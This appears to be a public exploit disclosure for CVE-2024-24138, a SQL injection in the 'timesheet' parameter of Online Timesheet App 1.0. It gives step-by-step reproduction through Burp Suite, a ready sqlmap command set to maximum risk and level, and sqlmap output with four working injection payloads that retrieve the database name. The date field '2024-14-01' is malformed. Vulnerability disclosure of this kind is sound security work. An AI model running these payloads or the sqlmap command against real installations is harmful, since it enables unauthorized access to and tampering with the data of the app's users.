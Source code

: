 # CVE-2024-24138:  Online Timesheet App SQL Injection

+ **Exploit Title:** CVE-2024-24138:  Online Timesheet App SQL Injection
+ **Date:** 2024-14-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17106/online-timesheet-app-using-php-and-mysql-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17106&title=Online+Timesheet+App+Using+PHP+and+MySQL+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux  + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-24138

## Description:
Online Timesheet App 1.0 allows SQL Injection via parameter 'timesheet' in "/online-timesheet/endpoint/delete-timesheet.php?timesheet=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to : "http://localhost/online-timesheet/"
+ Select a random timesheet (if you don't have one, you can create one yourself and try it) 
+ Press the Delete timesheet button. 
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /online-timesheet/endpoint/delete-timesheet.php?timesheet=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'timesheet' parameter to dump the database.
```
sqlmap -r r.txt -p timesheet --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
Parameter: timesheet (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: timesheet=1' RLIKE (SELECT (CASE WHEN (2289=2289) THEN 1 ELSE 0x28 END))-- FHEq

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: timesheet=1' AND EXTRACTVALUE(6634,CONCAT(0x5c,0x716a7a7a71,(SELECT (ELT(6634=6634,1))),0x71767a6b71))-- IGPz

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: timesheet=1';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: timesheet=1' AND (SELECT 2009 FROM (SELECT(SLEEP(5)))PVTr)-- uBga
---
[16:37:55] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[16:37:55] [INFO] fetching current database
[16:37:55] [INFO] retrieved: 'timesheet_db'
current database: 'timesheet_db'
```
+ current database: `timesheet_db`
![Ekran görüntüsü 2024-01-14 004327](https://github.com/BurakSevben/Online_Timesheet_App_SQL_Injection/assets/117217689/b66ab948-ab3e-49d7-8244-c7a8a661de13)
